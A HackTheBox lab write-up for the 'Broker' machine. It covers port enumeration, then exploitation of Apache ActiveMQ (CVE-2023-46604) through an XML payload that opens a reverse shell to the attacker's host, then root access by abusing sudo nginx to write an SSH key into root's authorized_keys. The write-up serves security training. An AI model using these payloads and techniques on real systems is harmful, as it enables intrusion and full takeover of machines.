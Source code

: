 ```yaml
---
tags:
  - hack
  - linux
---
```

# HackTheBox: [Broker](https://app.hackthebox.com/machines/Broker)

> [!tip]- Summary with Spoilers
> This box is running a vulnerable version of [Apache ActiveMQ](https://en.wikipedia.org/wiki/Apache_ActiveMQ). After the foothold, `nginx` can be abused via `sudo` to run a malicious web server that accepts `PUT` requests to the root filesystem, which can be used to place an SSH key for shell access as `root`.

## Services

### TCP

- Target: `broker.htb 10.10.11.243`
- Command: `nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oA nmap_tcp-broker.htb broker.htb

#### 22/tcp-ssh `OpenSSH` `8.9p1 Ubuntu 3ubuntu0.4` `(Ubuntu Linux; protocol 2.0)`

```text
__ssh-hostkey:
  256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
```

#### 80/tcp-http `nginx` `1.18.0` `(Ubuntu)`

```text
__http-title:
Error 401 Unauthorized
__http-server-header:
nginx/1.18.0 (Ubuntu)
__http-auth:
HTTP/1.1 401 Unauthorized
  basic realm=ActiveMQRealm

```

Guess credentials `admin:admin`:

![](_/htb-broker-20240927-1.png)

#### 1883/tcp-mqtt

```text
__mqtt-subscribe:
  Topics and their most recent payloads:
    ActiveMQ/Advisory/Consumer/Topic/#:
    ActiveMQ/Advisory/MasterBroker:
```

#### 5672/tcp-amqp

```text
__amqp-info:
ERROR: AQMP:handshake expected header (1) frame, but was 65
__fingerprint-strings:
  DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:
    AMQP
    AMQP
    amqp:decode-error
    7Connection from client using unsupported AMQP attempted
```

#### 8161/tcp-http `Jetty` `9.4.39.v20210325`

```text
__http-auth:
HTTP/1.1 401 Unauthorized
  basic realm=ActiveMQRealm

__http-server-header:
Jetty(9.4.39.v20210325)
```

#### 38231/tcp-tcpwrapped

#### 61613/tcp-stomp `Apache ActiveMQ`

```text
__fingerprint-strings:
  HELP4STOMP:
    ERROR
    content-type:text/plain
    message:Unknown STOMP action: HELP
    org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
    org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
    org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
    org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
    org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
    org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
    java.lang.Thread.run(Thread.java:750)
```

#### 61614/tcp-http `Jetty` `9.4.39.v20210325`

```text
__http-favicon:
Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
__http-server-header:
Jetty(9.4.39.v20210325)
__http-methods:
  Supported Methods: GET OPTIONS
__http-trane-info:
Problem with XML parsing of /evox/about
__http-title:
Site doesn't have a title.
```

#### 61616/tcp-apachemq `ActiveMQ OpenWire transport`

```text
__fingerprint-strings:
  NULL:
    ActiveMQ
    TcpNoDelayEnabled
    SizePrefixDisabled
    CacheSize
    ProviderName
    ActiveMQ
    StackTraceEnabled
    PlatformDetails
    Java
    CacheEnabled
    TightEncodingEnabled
    MaxFrameSize
    MaxInactivityDuration
    MaxInactivityDurationInitalDelay
    ProviderVersion
    5.15.15
```

## Remote Code Execution

This machine is running a vulnerable version of [Apache ActiveMQ](https://en.wikipedia.org/wiki/Apache_ActiveMQ).

First I place the XML payload on my attack machine's web-server:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.14.21/443 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

Then I can trigger the [exploit](https://github.com/evkl1d/CVE-2023-46604):

```console
$ python3 exploit.py -i broker.htb -u http://10.10.14.21/poc.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: broker.htb:61616
[*] XML URL: http://10.10.14.21/poc.xml

[*] Sending packet: 0000006d1f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001a687474703a2f2f31302e31302e31342e32312f706f632e786d6c
```

```console
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.243] 54222
bash: cannot set terminal process group (884): Inappropriate ioctl for device
bash: no job control in this shell
activemq@broker:/opt/apache-activemq-5.15.15/bin$ id
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
```

## Privilege Escalation

```console
activemq@broker:~$ sudo -l
sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

I create a malicious config file that will accept PUT requests to the root filesystem:

```text
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1339;
                root /;
                autoindex on;
                dav_methods PUT;
        }
}
```

Than I add my SSH key:

```console
activemq#broker:/tmp$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBofhuG5ISaVIR3ywAJ7ry+rellmpJVJi2aF5lszUGwj e' > authorized_keys
activemq#broker:/tmp$ curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat authorized_keys)"
```

Then I can login via SSH as `root`:

```console
$ ssh root@broker.htb
Warning: Permanently added 'broker.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
...

root@broker:~# id
uid=0(root) gid=0(root) groups=0(root)
```
